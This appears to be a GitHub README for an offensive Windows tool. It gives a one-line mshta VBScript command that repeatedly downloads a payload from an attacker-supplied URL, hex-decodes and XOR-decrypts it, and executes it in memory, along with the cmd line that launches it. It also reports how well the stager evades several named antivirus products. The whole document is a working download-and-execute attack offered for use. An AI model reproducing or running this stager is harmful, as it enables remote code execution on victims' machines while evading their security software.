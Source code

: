 # MSHTA VBScript Download & Execute
Downloads, decode, decrypt and executes a VBScript using cmd and mshta
```
'=========================================='
'                 Features                 '  
'++++++++++++++++++++++++++++++++++++++++++'
' [*] Autoreconnect                        '
' [*] Hexadecimal encoded payload (UTF8)   '
' [*] Encrypted payload                    '
' [*] In (**almost) memory execution       '
'++++++++++++++++++++++++++++++++++++++++++'
'<---------------------------------------->'
'<========================================>'
'<---------------------------------------->'
'mshta.exe one line command                '
'mshta.exe maximum command length   : 487  '
'Script length with double quotes   : 330  '
'<---------------------------------------->'
'=========================================='

**mshta.exe will save in a temp file your decrypted payload and after the execution the temp file will be deleted
```
## One line command
```
"On Error Resume Next:Set a=CreateObject(""MSXML2.ServerXMLHTTP.6.0""):a.setOption 2,13056:while(Len(b)=0):a.open""GET"",""LINK_TO_YOUR_PAYLOAD"",False:a.send:b=a.responseText:wend:k=""PAYLOAD_DECRYPT_KEY"":for i=0to Len(b)-1Step 2:c=c&Chr(Asc(Chr(""&H""&Mid(b,i+1,2)))xor Asc(Mid(k,((i/2)mod Len(k))+1,1))):Next:ExecuteGlobal c:"
```

## Example
```
(cmd.exe): mshta vbscript:execute("ONE LINE COMMAND")(window.close)
```
![Alt Text](https://i.imgur.com/5bjSQAY.gif)
</br>
[ScreenToGif](https://github.com/NickeManarin/ScreenToGif)

## Evasion Test
Tested on **Windows7/10** x64 with: *Avira*, *AVG*, *Avast*, *ESET32*, *Kaspersky*, *Panda*, *BitDefender* and *Windows Defender* (Win7/10) to launch a more *expansive malicous payload*, the only one which successfully blocked the process was **BitDefender**.

## Use your creativity ;)
